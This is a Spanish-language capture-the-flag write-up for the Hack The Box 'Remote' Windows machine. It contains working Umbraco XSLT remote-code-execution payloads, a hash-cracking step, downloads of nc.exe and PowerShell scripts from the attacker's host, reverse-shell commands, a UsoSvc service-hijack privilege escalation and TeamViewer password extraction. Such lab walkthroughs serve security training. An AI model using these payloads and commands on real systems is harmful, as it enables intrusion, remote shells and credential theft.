# Remote

**OS**: Windows \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Enumeracion NFS
- Hash cracking
- Umbraco CMS 7.12.4 (RCE)
- Windows 10 UsoSvc
- TeamViewer exploit
- Psexec

## Nmap Scan

`nmap -sV -sC -p- -T3 -sS -Pn 10.10.10.180`

```
Nmap scan report for 10.10.10.180
Host is up (0.067s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m19s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-28T14:52:28
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 28 08:50:50 2020 -- 1 IP address (1 host up) scanned in 144.00 seconds
```

## Enumeración

Enumeramos el servicio **nfs** que corre en el puerto **111** para saber a que directorios podemos acceder con ayuda de la herramienta showmount.

`sudo showmount -e 10.10.10.180`



Se puede visualizar que podemos montar el directorio **/site_backups**, utilizamos **mount** para montar la carpeta en nuestro sistema.

`sudo mount -t nfs 10.10.10.180:/site_backups /mnt`



Despues de enumerar los directios nos encontramos con un archivo importante llamado **Umbraco.sdf** en la ruta **App_Data**.

`cat Umbraco.sdf`



Se puede visualizar la cadena **admin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa**. Si vamos a la pagina web http://10.10.10.180/umbraco se puede ver un formulario de autenticación por lo tanto se supone que el usuario es **admin@htb.local** y el password **b8be16afba8c314ad33d812f22a04991b90e2aaa** que por el momento esta encriptado.

Procedemos a crackear el hash antes obtenido con la herramienta **john**.

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`



Posteriormente iniciamos sesion en la pagina web y si vamos a la opción **Help** podemos ver la versión del la aplicación web esto nos puede ayudar para buscar posibles exploits.



## Exploit Umbraco CMS 7.12.4

Despues de buscar exploits sobre **Umbraco 7.12.4** nos encontramos con un **(Authenticated) Remote Code Execution**. Podemos basarnos de este [exploit](https://www.exploit-db.com/exploits/46153) para conseguir una shell.

Primero nos dirigimos a la ruta: \
http://10.10.10.180/umbraco/developer/Xslt/xsltVisualize.aspx

Preparamos nuestro proxy con BurpSuite y damos clic en el botón **Visualize XSLT**. 



Capturamos la request y la mandamos al **Repeater**.



Mandamos nuestro primer exploit para comprobar que tenemos ejecución de código remoto a través del parametro **ctl00$body$xsltSelection**.

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "/c dir c:\\"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```



Como podemos ver nos trae los directorios raíz del sistema. Entonces nuestro segundo paso sera subir **nc.exe** al sistema para obtener una reverse shell.

Preparamos un servidor web simple con python.

- `locate nc.exe`
- `cp /usr/share/windows-resources/binaries/nc.exe .`
- `sudo python3 -m http.server 80`



Mandamos el exploit para descargar el **nc.exe** al sistema.

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "iwr http://10.10.14.248/nc.exe -Outfile c:\\Microsoft\\nc.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```



Ponemos a la escucha nuestro netcat y despues mandamos el exploit para ejecutar **nc.exe**.

`rlwrap nc -lvnp 1234`

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "/c c:\\Microsoft\\nc.exe -e cmd.exe 10.10.14.248 1234"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```





## Escalada de Privilegios

Utilizando **PowerUp.ps1** verificamos si existe alguna forma de escalar privilegios.

- `locate PowerUp.ps1`
- `cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`
- `sudo python3 -m http.server 80`



- `powershell`
- `IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.248/PowerUp.ps1')`
- `Invoke-AllChecks`



Investigando sobre el servicio **UsoSvc** nos encontramos con un exploit para obtener una shell con privilegios de Administrador.

### Windows 10 - CVE-2019-1322 UsoSvc

Verificamos el servicio.

`sc.exe qc usosvc`



Configuramos el servicio con nuestro comando.

- `sc.exe config usosvc binPath="C:\Microsoft\nc.exe 10.10.14.248 4444 -e cmd.exe"`
- `sc.exe qc usosvc`



Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 4444`

Detenemos el servicio y lo iniciamos.

- `sc.exe stop UsoSvc`
- `sc.exe start UsoSvc`





### TeamViewer CVE-2019-18988

Hay una segunda forma de escalar privilegios la cual consiste en tomar el password del Administrador que se encuentra encryptado en los registros de Widows sobre **TeamViewer**.



Para eso utilizamos este [script](https://github.com/zaphoxx/WatchTV) que nos permite obtener el password en texto plano.

- `powershell`
- `IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.248/WatchTV.ps1')`
- `Get-TeamViewPasswords`



Posteriormente podemos obtener shell a través de **psexec**.

`python psexec.py Administrator@10.10.10.180`



## Referencias
https://www.exploit-db.com/exploits/46153 \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md \
https://github.com/zaphoxx/WatchTV \
https://github.com/SecureAuthCorp/impacket